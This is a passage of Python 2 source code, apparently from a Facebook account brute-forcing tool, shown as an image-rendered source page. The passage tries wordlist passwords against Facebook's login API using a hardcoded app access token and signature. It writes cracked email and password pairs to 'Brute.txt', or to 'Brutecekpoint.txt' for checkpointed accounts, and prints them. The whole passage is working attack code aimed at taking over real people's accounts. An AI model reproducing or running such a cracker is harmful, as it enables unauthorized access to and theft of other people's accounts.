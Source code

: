                     sys.stdout.flush()
                    data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + email + '&locale=en_US&password=' + pw + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
                    mpsh = json.loads(data.text)
                    if 'access_token' in mpsh:
                        dapat = open('Brute.txt', 'w')
                        dapat.write(email + ' | ' + pw + '\n')
                        dapat.close()
                        print '\n\033[1;97m[+] \033[1;97mFounded.'
                        print 52 * '\033[1;97m\xe2\x95\x90'
                        print '\033[1;97m[\xe2\x9e\xb9] \033[1;97mUsername \033[1;97m:\033[1;97m ' + email
                        print '\033[1;97m[\xe2\x9e\xb9] \033[1;97mPassword \033[1;97m:\033[1;97m ' + pw
                        keluar()
                    else:
                        if 'www.facebook.com' in mpsh['error_msg']:
                            ceks = open('Brutecekpoint.txt', 'w')
                            ceks.write(email + ' | ' + pw + '\n')
                            ceks.close()
                            print '\n\033[1;97m[+] \033[1;97mFounded.'
                            print  "\033[1;36;40m ●════════════════════════◄►════════════════════════●"
                            print '\033[1;97m[!] \033[1;97mAccount Maybe Checkpoint'
                            print '\033[1;97m[\xe2\x9e\xb9] \033[1;97mUsername \033[1;97m:\033[1;97m ' + email
                            print '\033[1;97m[\xe2\x9e\xb9] \033[1;97mPassword \033[1;97m:\033[1;97m ' + pw
                            keluar()
                except requests.exceptions.ConnectionError:
                    print '\033[1;97m[!] Connection Error'
                    time.sleep(1)

        except IOError:
            print '\033[1;97m[!] File not found...'
            print """\n\033[1;97m[!] \033[1;97mLooks like you don't have a wordlist"""
            super()

if __name__ == '__main__':
	login()
